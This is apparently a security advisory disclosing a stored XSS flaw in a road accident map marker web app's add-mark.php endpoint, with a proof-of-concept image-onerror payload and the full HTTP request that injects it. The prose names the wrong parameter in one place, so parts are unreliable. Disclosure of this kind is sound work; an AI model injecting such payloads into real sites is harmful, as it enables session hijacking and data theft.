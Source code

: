 # Stored XSS Vulnerability in Road Accident Map Marker

### Title: Stored XSS Vulnerability in Road Accident Map Marker 
### Affected Component: /endpoint/add-mark.php
### CWE: CWE-79 (Improper Neutralization of Input During Web Page Generation)

### Impact:
The web application is vulnerable to stored cross-site scripting (XSS) attacks within the Road Accident Marker Area functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "mark_name" parameter,
which is used to mark locations. When unsuspecting users view the marked road accident area, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the stored XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "day" parameter while assigning a project. For example, 
submitting the payload `<img+src=x+onerror=alert(PwnedPixel)>` triggers an alert box when viewed. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```
POST /road-accident-map-marker/endpoint/add-mark.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/road-accident-map-marker/



date=2024-12-27&mark_name=<img+src=x+onerror=alert(PwnedPixel)>&details=x&mark_lat=9.696874&mark_long=122.802429
```

### Proof with Screenshot:
![image](https://github.com/user-attachments/assets/4b7d7121-0689-4bae-86ae-d651eb8ae599)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
